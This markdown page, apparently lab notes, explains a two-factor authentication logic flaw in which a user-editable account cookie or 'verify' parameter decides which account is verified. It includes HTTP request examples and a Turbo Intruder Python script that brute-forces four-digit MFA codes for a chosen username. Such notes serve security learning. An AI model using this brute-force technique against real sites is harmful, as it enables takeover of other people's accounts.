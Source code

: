Sometimes flawed logic in two-factor authentication means that after a user has completed the initial login step, the website doesn't adequately verify that the same user is completing the second step.
## Example Logic
A user logs in with their credential in the first step as follows:
```http
POST /login-steps/first HTTP/1.1
Host: target-website.com
...
username=carlos&password=1234
```
They are then assigned a cookie that relates to their account, before being taken to the second step of the login process:
```http
HTTP/1.1 200 OK
Set-Cookie: account=carlos
```
```http
GET /login-steps/second HTTP/1.1
Cookie: account=carlos
```
When submitting the verification code, the request uses this cookie to determine which account the user is trying to access:
```http
POST /login-steps/second HTTP/1.1
Host: target-website.com
Cookie: account=carlos
...
verification-code=qwerty
```
In this case, the attacker could login using their own credentials but then change the value of the `account` cookie to any username when submitting the verification code.
```http
POST /login-steps/second HTTP/1.1
Host: target-website.com
Cookie: account=admin
...
verification-code=qwerty
```
This is extremely dangerous if the attacker is then able to brute force the verification code, as it would allow them to login to any user accounts based entirely on their username.
## Exploiting Flawed Logic
1. Notice that in `POST /login2` request, the `verify` parameter is used to determine which user account is being accessed.
2. Send that request to Burp Repeater, and change `POST` to `GET` and `verify` parameter to the target username. This ensures that a temporary 2FA code is generated for the target username.
3. Login with an account you can control. Then submit an invalid 2FA code.
4. Send `POST /login2` to Turbo Intruder (install via bApp).
5. In the pop-up, change the `verify` parameter to target username, then use the following code for the attack:
```python
# https://gist.github.com/bavlayan/aa7470b9692f05f29e6c8ea88e8bde85
def queueRequests(target, wordlists):
    engine = RequestEngine(
	    endpoint=target.endpoint,
        concurrentConnections=5,
        requestsPerConnection=100,
        pipeline=False,
		engine=Engine.BURP
    )

    for num in range(0, 10000):
        mfa_code = '{0:04}'.format(num)
        engine.queue(target.req, mfa_code.rstrip())


def handleResponse(req, interesting):
    if req.status == 302:
        table.add(req)
```
6. Start the attack. When finished, right click on the request and select **Show response in browser**. Copy the URL and load it in the browser.